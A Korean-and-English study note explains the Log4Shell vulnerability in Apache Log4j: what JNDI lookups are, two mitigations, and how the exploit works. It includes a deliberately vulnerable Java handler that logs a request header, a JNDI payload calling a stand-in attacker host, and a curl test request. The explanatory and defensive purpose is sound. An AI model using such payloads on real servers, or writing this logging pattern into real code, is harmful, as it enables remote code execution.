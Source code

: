 ## Log4j 개념 설명과 Log4j가 보안 위험에 노출된 이유

> Apache Log4j2 versions 2.0-beta7 through 2.17.0 are vulnerable to a **remote code execution(RCE) attack** where an attacker with permission to modify the logging configuration file can construct a malicious configuration using a JDBC Appender with a data source referencing a JNDI URI which can execute remote code. This issue is fixed by limiting JDNI data source names to th java protocol in Log4j2 versions 2.17.1, 2.12.4, and 2.3.2
> 

Log4j는

- JAVA 기반 오픈소스 유틸리티로 엔터프라이즈 애플리케이션과 웹사이트에서 많이 사용된다.
- 서비스 동작 과정에서 일어나는 모든 기록을 남긴다.
- 침해 사고 발생 및 이상 징후를 점검하기 위해 Log4j를 이용한다.

이번 Log4j 취약점은 JNDI (Java Naming Directory Interface)와 LDAP (Lightweight Directory Access Protocol)에서 시작한다. 

- JNDI : JAVA  프로그램이 디렉토리를 통해 데이터를 찾을 수 있는 다양한 디렉토리 서비스 Interface를 제공한다. 그중 하나가 LDAP
- Java 프로그램들은 JDNI와 LDAP를 통해 Java 객체를 찾을 수 있다.
- 여기서 문제는 Log4j에 이를 이용하여 편하게 Java 객체를 볼 수 있게하는 특정 문법이 존재한다는 것이다.
- 이 문법들은 로그가 기록될 때도 사용이 가능하다. 해커들은 로그가 기록되는 곳을 찾아 취약점을 이용할 수 있게 된다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa000d09-d02e-438a-b350-55f63b79fe58/Untitled.png)

## 해결 방법

- 가장 확실한 조치는 log4j 라이브러리를 2.15 이상으로 업데이트 하는 것이다.
- 그러나 단 기간에 라이브러리를 업데이트하고 재검증하기 어려울 경우, 다음과 같은 선제 조치를 취한다.

**1) JndiLookup을 log4j-core에서 제거**

- 라이브러리 경로에서 아래 명령을 실행하면 JndiLookup.class가 제거된다.

```sql
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

**2) JVM 옵션으로 JndiLookup 기능을 제한하는 방법**

: -Dlog4j2.formatMsgNoLookups=true 옵션과 함께 애플리케이션을 실행한다. 

```bash
java -Dlog4j2.formatMsgNoLookups=true -jar myapp.jar
```



## How the exploit works

### Exploit Requirements

- A server with a vulnerable log4j version
- An endpoint with any protocol (HTTP, TCP, etc), that allows an attacker to send the exploit string.
- A log statement that logs out the string from that request.

### Example Vulnerable Code

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://some-attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

- 다음과 같은 요청을 보냄

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

### Exploit Steps

1. Data from the User gets sent to the server (via any protocol).
2. logs the data containing the malicious payload from the request `${jndi:ldap://some-attacker.com/a}`, where `some-attacker.com` is an attacker controlled server.
3. The log4j vulnerability is triggered by this payload and the server makes a request to `some-attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI).
4. This response contains a path to a remote Java class file (ex. `http://second-stage.some-attacker.com/Exploit.class`), which is injected into the server process.
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

## 참고 자료

[https://www.whatap.io/ko/blog/100/](https://www.whatap.io/ko/blog/100/)

[https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)

[https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)

[https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)
